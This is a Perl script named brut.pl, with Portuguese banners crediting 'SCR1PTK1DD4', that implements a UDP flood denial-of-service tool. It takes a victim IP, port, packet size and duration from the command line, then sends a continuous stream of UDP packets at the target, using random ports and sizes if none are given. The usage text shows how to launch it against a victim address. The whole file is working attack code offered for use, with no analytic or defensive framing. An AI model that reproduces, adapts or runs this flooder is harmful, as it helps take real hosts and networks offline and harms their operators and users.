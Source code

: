 # brut.pl#!/usr/bin/perl
 
#   ____   ____ ____  _ ____ _____ _  ___ ____  ____  _  _   
#  / ___| / ___|  _ \/ |  _ \_   _| |/ / |  _ \|  _ \| || |  
#  \___ \| |   | |_) | | |_) || | | ' /| | | | | | | | || |_ 
#   ___) | |___|  _ <| |  __/ | | | . \| | |_| | |_| |__   _|
#  |____/ \____|_| \_\_|_|    |_| |_|\_\_|____/|____/   |_|  
 
use Socket;
use strict;
 
if ($#ARGV != 3) {
  print "#################################\n";
  print "#    FlooD Net / DDos / UdP     #\n";
  print "#              by               #\n";
  print "#         SCR1PTK1DD4           #\n";
  print "#################################\n\n";
  print " Porta = 0: Usar Portas aleatorias\n";
  print " Pacotes = 0: Usar entre 64 e 65500 Pacotes aleatorios\n";
  print " Tempo = 0: Ataque continuo\n";
  print " Exemplo = perl Brut.pl IPVITIMA 80 65500 0\n\n";
  exit(1);
}
 
my ($ip,$port,$size,$time) = @ARGV;
 
my ($iaddr,$endtime,$psize,$pport);
 
$iaddr = inet_aton("$ip") or die "IP inválido: $ip\n";
$endtime = time() + ($time ? $time : 1000000);
 
socket(flood, PF_INET, SOCK_DGRAM, 17);
 
 
print "Atacando o IP e Porta $ip " . ($port ? $port : "random") . " com " .
  ($size ? "$size-bytes" : "random size") . " de pacotes" .
  ($time ? " por $time segundos" : "") . "\n";
print "
########################
#  ATACANDO IP - Host  #
#   CTRL + C = STOP    #
#         By           #
#     SCR1PTK1DD4      #
######################## \n" unless $time;
 
for (;time() <= $endtime;) {
  $psize = $size ? $size : int(rand(1024-64)+64) ;
  $pport = $port ? $port : int(rand(65500))+1;
 
  send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport, $iaddr));}
